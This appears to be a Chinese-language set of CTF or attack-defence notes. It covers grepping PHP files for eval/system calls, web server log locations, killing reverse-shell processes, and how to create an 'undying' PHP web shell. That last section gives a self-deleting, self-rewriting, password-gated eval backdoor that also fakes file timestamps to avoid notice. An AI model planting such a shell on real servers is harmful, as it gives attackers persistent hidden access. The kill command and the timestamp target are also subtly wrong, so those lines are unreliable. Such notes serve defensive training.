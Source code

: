 ```bash
find . -name '*.php' | xargs grep -n 'eval('

find . -name '*.php' | xargs grep -n 'assert('

find . -name '*.php' | xargs grep -n 'system('
```

## 日志分析

网站日志位置

::: tip
Nginx日志
/var/log/nginx/access.log

apahce日志
对于Ubuntu/Debian系统，通常位于/var/log/apache2/access.log
对于CentOS/RHEL系统，通常位于/var/log/httpd/access_log
:::

## 杀死反弹shell

查看进程

```bash
ps -ef
ps -aux
ps -aux | grep www-data
```

杀死进程

```bash
kill ps -aux | grep www-data | grep apache2 | awk '{print $2}'
```

## 不死马

### 创建

```php
<?php 
ignore_user_abort(true);
set_time_limit(0);
unlink(__FILE__);
$file = '2.php';
$code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
while (1){
    file_put_contents($file,$code);
    # 修改文件时间戳减少嫌疑？
    system('touch -m -d "2018-12-01 09:10:12" .2.php');
    usleep(5000);
} 
?>
```
